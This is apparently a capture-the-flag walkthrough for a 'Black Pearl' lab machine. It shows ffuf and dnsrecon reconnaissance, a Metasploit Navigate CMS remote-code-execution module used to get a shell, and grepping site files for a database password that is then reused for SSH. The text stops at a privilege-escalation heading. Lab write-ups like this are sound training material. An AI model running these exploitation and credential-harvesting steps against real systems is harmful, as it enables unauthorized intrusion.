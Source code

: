 # Black Pearl machine walkthrough
Starting with nmap scan.

![nmap](https://github.com/moataz-bellah/writeups/assets/47069499/d82feffd-c461-4903-bd3b-52957d253583)

Ok, we have three ports open, 22, 53, 80 for ssh, dns, and http. Start with http and see what it has. Let's search for any usful directories.  

```
ffuf -u http://192.168.0.106/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ
secret
```
Great, we got 'secret'. Let's see it.

![secret](https://github.com/moataz-bellah/writeups/assets/47069499/6a7a2856-9bcc-4fa9-ba4b-0c725923593e)

Ok, we may have a potential username "Alek". Nothing else on this site. Let's move to port 53 which is dns.

```
sudo dnsrecon -r 127.0.0.0/24 -n 192.168.0.106
```

This command will look for internal sites inside dns server.

![dns_recon](https://github.com/moataz-bellah/writeups/assets/47069499/898e0e7a-f6c7-4420-9761-230e86ffb25e)

Yes, found something interesting 'blackpearl.tcm'. To access it, we need to add it to /etc/hosts like that.

```
192.168.0.106   blackpearl.tcm
```

Good, let's visit http://blackpearl.tcm

![php](https://github.com/moataz-bellah/writeups/assets/47069499/92d1f44d-e4df-4809-9b84-cd9fafab161d)

It is a php configuration page. Let's do some directory busting again, but on http://blackpearl.tcm this time.

```
ffuf -u http://blackpearl.tcm/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt:FUZZ
navigate
```
Great, we got navigate. Let's see it.

![navigate](https://github.com/moataz-bellah/writeups/assets/47069499/2f63b25c-d4ca-4fd9-9c13-4265c1d9422c)

I tried sql injection, but it didn't work. So, let's search online for any exploit for navigatecms, and i found that https://www.rapid7.com/db/modules/exploit/multi/http/navigate_cms_rce/
Great, metasploit has exploit for it. Opening metasploit.

```
use exploit/multi/http/navigate_cms_rce
set RHOSTS http://blackpearl.tcm
exploit
```

![metasploit](https://github.com/moataz-bellah/writeups/assets/47069499/06860344-fb8b-470f-8394-8f8915724f2c)

Great, we are in. We have user www-data. Let's discover the files of that site.

![ls](https://github.com/moataz-bellah/writeups/assets/47069499/cf82dd6d-bf44-47e5-aa77-0c8b7cbaf42f)

I want to search in all files for word "password" to see, if can find credentials.

```
grep  -r 'password*' navigate/*  --exclude='*.css' --exclude='*.js' --exclude-dir='lib' --exclude-dir='js' | cut -d: -f1
```
- -r  search in subdirectories
- navigate/* all files inside navigate folder
- --exclude  igonre files of spacific type
- --exclude-dir ignore spacific directories from search

This command will search in all files and dirs inside navigate folder except files of type .css and .js and dirs 'lib' and 'js'. I ignored these files becuase they are not useful.  

![grep](https://github.com/moataz-bellah/writeups/assets/47069499/471aeb3d-d8bc-4b89-bb65-3b5e681508a5)

We have a lot of duplicates. we can filter tham by adding a small part.

```
grep  -r 'password*' navigate/*  --exclude='*.css' --exclude='*.js' --exclude-dir='lib' --exclude-dir='js' | cut -d: -f1 | sort | uniq
```

After removing duplicates

```
navigate/cfg/globals.php
navigate/login.php
navigate/web/nvweb_xmlrpc.php
```

We have a lot of files that have 'password' inside. Exploring them, i found that navigate/cfg/globals.php has mysql credentials.

```
define('PDO_HOSTNAME', "localhost");
define('PDO_PORT',     "3306");
define('PDO_SOCKET',   "");
define('PDO_DATABASE', "navigate");
define('PDO_USERNAME', "alek");
define('PDO_PASSWORD', "H4x0r");
define('PDO_DRIVER',   "mysql");
```
Let's try to login to ssh using that credential.

![ssh](https://github.com/moataz-bellah/writeups/assets/47069499/3d913e9e-d540-4fb7-af1b-941f95666054)

Great, now we are alek.

# Privilege Escalation

